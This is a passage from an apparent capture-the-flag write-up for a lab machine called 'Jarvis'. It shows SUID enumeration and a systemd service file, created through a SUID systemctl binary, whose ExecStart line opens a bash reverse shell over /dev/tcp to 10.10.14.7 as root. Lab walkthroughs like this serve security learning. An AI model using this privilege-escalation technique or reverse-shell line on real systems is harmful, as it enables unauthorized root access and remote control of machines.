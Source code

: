 
## Enumeration as "pepper"

Let's check if there are any SUID binaries:

```
pepper@jarvis:/$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/bin/fusermount
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
pepper@jarvis:/$ 

```

The one that stands out is "systemctl". Let's check out GTFObins:

{% embed url="https://gtfobins.github.io/gtfobins/systemctl" %}

In order to get a root shell, we need to do the following:

* Create the new service using a service file (service unit)
* Start a new listener
* Enable the new service and then start it using systemctl&#x20;

For more information on creating a new service see the following page:

{% embed url="https://linuxconfig.org/how-to-create-systemd-service-unit-in-linux" %}

## Privilege Escalation

Let's create the new service:

```
pepper@jarvis:/var/www/html$ cat > /dev/shm/av.service << EOF
cat > /dev/shm/av.service << EOF
> [Service]
[Service]
> User=root
User=root
> ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/80 0>&1'
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/80 0>&1'
> [Install]
[Install]
> WantedBy=multi-user.target
WantedBy=multi-user.target
> EOF
EOF
pepper@jarvis:/var/www/html$ cat /dev/shm/av.service
cat /dev/shm/av.service
[Service]
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/80 0>&1'
[Install]
WantedBy=multi-user.target
```